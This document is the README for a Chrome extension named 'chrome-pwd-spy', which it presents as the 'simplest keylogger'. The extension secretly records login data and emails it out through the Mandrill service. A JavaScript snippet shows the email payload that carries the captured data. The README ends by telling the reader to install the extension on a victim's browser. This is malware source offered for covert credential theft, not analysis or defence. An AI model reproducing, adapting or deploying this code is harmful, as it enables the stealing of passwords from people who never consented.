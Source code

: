 ### #сhrome-pwd-spy

Simplest keylogger, discreetly records login data to mandrill email.

##### how to use ->

*js/background.js:*

```javascript
var data = {
    'key': '', //<--- Your key there
    'message': {
    'from_email': '', //<--- from
    'to': [
     {
        'email': '', //<--- to
        'name': 'PWD',
        'type': 'to'
     }
     ],
        'autotext': 'true',
        'subject': 'PWD',
        'html':'<div>' + html + '</div>'
     }
};
```

Set your mandrill credentials, then install extension on your victim's chrome browser and that's it!